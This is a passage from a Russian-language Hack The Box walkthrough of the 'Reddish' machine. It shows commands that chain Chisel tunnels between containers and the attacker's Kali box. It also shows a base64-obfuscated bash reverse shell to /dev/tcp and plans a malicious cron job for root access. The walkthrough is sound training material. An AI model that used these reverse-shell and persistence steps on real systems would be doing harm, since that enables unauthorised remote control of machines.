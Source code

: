 ![www-rsync-write-test-file.png](/assets/images/htb/machines/reddish/www-rsync-write-test-file.png)
{:.center-image}

Попробуем таким образом получить шелл: я создам вредоносную задачу cron с реверс-шеллом, запишу ее в `/etc/cron.d/` на сервере `backup` и поймаю отклик на Kali. Но у нас очередная проблема сетевой доступности: `backup` умеет говорить только с `www`, а `www` только с `nodered`... Да, ты правильно понимаешь, придется строить **цепочку** туннелей: от `backup` до `www`, от `www` до `nodered` и от `nodered` до Kali.

## Получение root-шелла

Следуя принципам динамического программирования, декомпозируем сложную задачу построения такого многосоставного туннеля на две простые подзадачи, а в конце объединим результаты:

1\. Пробрасываем локальный порт `1111` из контейнера `nodered` до порта `8000` на Kali, на котором работает сервер Chisel. Это позволит нам обращаться к `172.19.0.4:1111` как к серверу Chisel на Kali.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 1111:127.0.0.1:8000 &
```

2\. Вторым шагом настроим переадресацию с `www` на Kali. Для этого подключимся к `172.19.0.4:1111` (то же самое, как если бы мы могли подключиться к Kali напрямую) и пробросим локальный порт `2222` до порта `3333` на Kali.

```
www-data@www:/tmp$ ./chisel client 172.19.0.4:1111 2222:127.0.0.1:3333 &
```

Теперь все, что попадет в порт `2222` на `www`, будет перенаправлено по цепочке туннелей через контейнер `nodered` в порт `3333` на машину атакующего.

![network-map-7.png](/assets/images/htb/machines/reddish/network-map-7.png)
{:.center-image}

Сетевая карта. Часть 7: Цепочка туннелей "www <=> nodered <=> Kali"
{:.quote}

Для некоторых утилитарных целей (например, доставить исполняемый файл `chisel` в контейнер `www`), было открыто еще 100500 вспомогательных туннелей, описание которых я не стал включать в текст прохождения и добавлять на сетевую карту, чтобы не запутывать читателя еще больше.

Остается создать реверс-шелл, cron-задачу, залить это все на `backup`, дождаться запуска cron-а и поймать шелл на Kali. Сделаем же это.

Создаем шелл.

```
root@www:/tmp# echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzIyMjIgMD4mMScK | base64 -d > shell.sh
root@www:/tmp# cat shell.sh
`bash -c 'bash -i >& /dev/tcp/172.20.0.3/2222 0>&1'
```

Создаем cronjob, который будет выполняться каждую минуту.

